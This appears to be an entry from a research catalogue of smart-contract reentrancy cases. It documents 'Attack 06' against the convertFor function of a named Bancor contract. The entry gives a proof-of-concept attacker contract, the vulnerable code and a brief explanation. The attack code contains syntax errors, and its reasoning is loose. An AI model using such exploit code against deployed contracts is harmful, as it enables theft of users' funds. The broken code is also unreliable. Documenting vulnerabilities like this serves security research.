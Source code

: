 #########
Attack 06
#########

**Contract Name**

BancorQuickConverter

**Contract Address**

0x1a5f170802824e44181b6727e5447950880187ab

**Transaction Count**

0

**Invovled Ethers**

0 Ethers

**Length of the Call Chain**

1 external function

**Victim Function**

``convertFor``

**Attack Mechanisim**

Attack code:
::

    contract Attack is IERC20Token{
        BancorQuickConverter b = new BancorQuickConverter();
        constructor() payable {}
        IERC20Token[] _path

        function setPath() {
            _path[0] = Attack(this);
            _path[1] = Attack(this);
            _path[2] = Attack(this);
        }

        function deposit() public {  
            b.convertFor.value(10)(_path, 10, 0, this);
        }

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

    contract IERC20Token is IEtherToken {}
    contrac IEtherToken{}

Attacked code:
::

    contract BancorQuickConverter {
        ...
        modifier validConversionPath() {
            require(_path.length > 2 && _path.length <= (1 + 2 * 10) && _path.length % 2 == 1);
            _;
        }

        function convertFor(IERC20Token[] _path, uint256 _amount, uint256 _minReturn, address _for)
            public
            payable
            validConversionPath(_path)
            returns (uint256)
        {
            // if ETH is provided, ensure that the amount is identical to _amount and verify that the source token is an ether token
            IERC20Token fromToken = _path[0];
            require(msg.value == 0 || (_amount == msg.value && etherTokens[fromToken]));

            ISmartToken smartToken;
            IERC20Token toToken;
            ITokenConverter converter;
            uint256 pathLength = _path.length;

            if (msg.value > 0)
                IEtherToken(fromToken).deposit.value(msg.value)();

            for (uint256 i = 1; i < pathLength; i += 2) {
                smartToken = ISmartToken(_path[i]);
                toToken = _path[i + 1];
                converter = ITokenConverter(smartToken.owner());

                if (smartToken != fromToken)
                    ensureAllowance(fromToken, converter, _amount);

                _amount = converter.change(fromToken, toToken, _amount, i == pathLength - 2 ? _minReturn : 1);
                fromToken = toToken;
            }

            if (etherTokens[toToken])
                IEtherToken(toToken).withdrawTo(_for, _amount);
            else
                assert(toToken.transfer(_for, _amount));

            return _amount;
        }
        ...
    }

In this case, the attacker can lauch reentrancy attack by calling ``IEtherToken(fromToken).deposit.value(msg.value)();``. The parameter ``fromToken`` is not carefully checked and can be easily changed by visitors. Visitor can modify the value of ``_path`` by passing an arbitrary parameter. Since ``fromToken`` is assigned by ``_path``, the value of ``fromToken`` is modified after ``_path``.

**Attack.** The attacker call ``setPath`` function to specify the array ``_path``, and call ``deposit`` to start attack.